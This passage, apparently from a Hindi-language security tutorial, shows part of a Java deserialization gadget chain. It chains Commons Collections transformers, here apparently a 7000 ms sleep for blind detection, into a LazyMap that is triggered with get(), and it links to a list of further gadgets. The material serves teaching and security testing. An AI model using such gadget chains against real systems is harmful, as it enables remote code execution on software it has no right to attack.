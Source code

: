 ```java
new Class[]{
Object.class, Object[].class
}, new Object[]
{
null, new Object[] {7000L}
}),
};

ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
Map map = new HashMap<>();
Map lazyMap = LazyMap.decorate(map, chainedTransformer);

//Execute gadgets
lazyMap.get("anything");

}
}
```
## अधिक गैजेट्स

आप अधिक गैजेट्स यहाँ पा सकते हैं: [https://deadcode.me/blog/2016/09/02/Blind-Java-Deserialization-Commons-Gadgets.html](https://deadcode.me/blog/2016/09/02/Blind-Java-Deserialization-Commons-Gadgets.html)

##

{% hint style="success" %}